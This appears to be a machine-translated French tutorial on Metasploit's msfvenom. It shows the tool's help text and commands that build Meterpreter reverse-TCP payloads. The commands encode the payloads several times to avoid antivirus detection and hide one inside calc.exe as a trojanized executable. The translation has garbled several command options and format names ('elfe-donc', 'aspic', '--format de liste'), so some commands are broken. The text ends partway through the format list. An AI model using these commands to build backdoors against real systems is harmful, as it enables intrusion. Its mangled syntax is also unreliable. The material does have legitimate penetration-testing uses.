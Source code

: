 # sec_msfvenom

### Introduction

**msfvenom** est un générateur de charge utile autonome (bombe logique) dans le framework Metasploit.
(2015.6.8 a remplacé les précédents « msfpayload » et « msfencode »)

* Aide sur GitHub
   * [Comment-utiliser-msfvenom](https://github.com/rapid7/metasploit-framework/ wiki/How-to-use-msfvenom)


### informations d'aide

```
msfvenom --help
MsfVenom - un générateur de charge utile autonome Metasploit.
Également un remplacement pour msfpayload et msfencode.
Utilisation : /usr/bin/msfvenom [options] <var=val>
Exemple : /usr/bin/msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> -f exe -o payload.exe

Possibilités :
     -l, --list <type> Répertorie tous les modules pour [type]. Les types sont : charges utiles, encodeurs, nops, plates-formes, archs, chiffrement, formats, tous
     -p, --payload <payload> Charge utile à utiliser (--list charges utiles à lister, --list-options pour les arguments). Spécifiez '-' ou STDIN pour la personnalisation
         --list-options Liste les options standard, avancées et d'évolution de --payload <value>
     -f, --format <format> Format de sortie (utilisez les formats --list pour lister)
     -e, --encoder <encoder> L'encodeur à utiliser (utilisez --list encoders pour lister)
         --sec-name <valeur> Le nouveau nom de section à utiliser lors de la génération de fichiers binaires Windows volumineux. Par défaut : chaîne alphabétique aléatoire de 4 caractères.
         --smallest Génère la plus petite charge utile possible en utilisant tous les encodeurs disponibles
         --encrypt <value> Le type de cryptage ou d'encodage à appliquer au shellcode (utilisez --list encrypt pour lister)
         --encrypt-key <value> Une clé à utiliser pour --encrypt
         --encrypt-iv <value> Un vecteur d'initialisation pour --encrypt
     -a, --arch <arch> L'architecture à utiliser pour --payload et --encoders (utilisez --list archs pour lister)
         --platform <platform> La plateforme pour --payload (utilisez --list platform pour lister)
     -o, --out <path> Enregistre la charge utile dans un fichier
     -b, --bad-chars <list> Caractères à éviter, exemple : '\x00\xff'
     -n, --nopsled <longueur> Ajouter un nopsled de taille [longueur] à la charge utile
         --pad-nops Utiliser la taille nopsled spécifiée par -n <length> comme taille totale de la charge utile, en ajoutant automatiquement un nopsled de quantité (nops moins la longueur de la charge utile)
     -s, --space <length> La taille maximale de la charge utile résultante
         --encoder-space <length> La taille maximale de la charge utile encodée (valeur par défaut -s)
     -i, --iterations <count> Le nombre de fois où encoder la charge utile
     -c, --add-code <path> Spécifie un fichier shellcode win32 supplémentaire à inclure
     -x, --template <path> Spécifie un fichier exécutable personnalisé à utiliser comme modèle
     -k, --keep Préserve le comportement de --template et injecte la charge utile en tant que nouveau thread
     -v, --var-name <value> Spécifie un nom de variable personnalisé à utiliser pour certains formats de sortie
     -t, --timeout <second> Le nombre de secondes à attendre lors de la lecture de la charge utile depuis STDIN (par défaut 30, 0 pour désactiver)
     -h, --help Afficher ce message
```


### Générer une charge utile - instructions de base

* Le type 1 génère une charge utile normale sans encodage (pas d'encodage -> contenu généré fixe -> directement tué)

```bash
#Format
msfvenom --payload <charge utile> <options de charge utile> -f <format> -o <chemin>
# exemple
msfvenom --payload windows/meterpreter/reverse_tcp -f c -o 1.c
```

* Le type 2 génère une charge utile après avoir été traité par l'encodeur

```bash
#Format
msfvenom --payload <payload> -e <encoder> -i <encoder times> -n <nopsled> -f <format> -o <path>
# exemple
msfvenom --payload windows/meterpreter/reverse_tcp -i 3 -e x86/shikata_ga_nai -f exe -o C:\back.exe
```

* Le type 3 est regroupé dans un fichier normal pour générer une charge utile (la question de savoir si le paramètre -e peut être ajouté n'a pas encore été testée)

```bash
Msfvenom --payload windows/meterpreter/reverse_tcp -platform windows -a x86 -x C:\calc.exe -k -f exe -o C:\shell.exe
```


### --payload [Spécifiez le nom de la charge utile de l'attaque]

Pour générer la charge utile, au moins --payload et -f doivent être spécifiés

* --charge utile
   * Vous pouvez spécifier le nom de la charge utile fourni avec msfvenom, tel que `--payload windows/meterpreter/reverse_tcp`
   * Vous pouvez spécifier une charge utile personnalisée telle que `cat custom_payload_shellcode.bin | msfvenom --payload - -a x86 --platform win -e x86/shikata_ga_nai -f raw -o shellcode_encoded.bin`

Les noms de toutes les charges utiles d'attaque font référence aux charges utiles msfvenom à la fin de cet article.
 

### -f [Spécifiez le format de fichier de sortie de la charge utile]

* -f prend en charge la sortie de différents formats de fichiers
   * Format exécutable (pour exécution directe)
     * `-f exe` génère un programme exécutable Windows
     * `-f exe uniquement`
     * `-f msi`
     * `-f vba` Générer des programmes exécutables Visual Basic pour Applications (un langage de programmation simple et puissant qui peut être utilisé pour étendre les applications Office) Référence [Démarrage d'Office VBA | Microsoft Docs](https://docs.microsoft.com / zh-cn/office/vba/library-reference/concepts/getting-started-with-vba-in-office)
     * `-f elf` génère un programme exécutable Linux
     * `-f elfe-donc`
     * `-f macho` génère un programme exécutable macOS/iOS
     * `-f osx-app`
     * `-f pot`
     *...
   * Format convertible (pour une utilisation personnalisée)
     * `-f raw` génère le format de sortie par défaut au format natif lorsque -f n'est pas spécifié
     * `-f hex` génère un codage hexadécimal tel que `\x0a`
     * `-f python`
     * `-fc`
     * `-f csharp` génère du code C#
     * `-f powershell`
     * `-f bash`
     * `-f sh`
     *...



Tous les formats de sortie
```bash
msfvenom --format de liste

Formats exécutables du framework [--format <valeur>]
===================================================

     nom
     ----
     aspic
     aspx
     aspx-exe
     axe2
     dll
     elfe
     elfe-donc
     exe
     exe-on
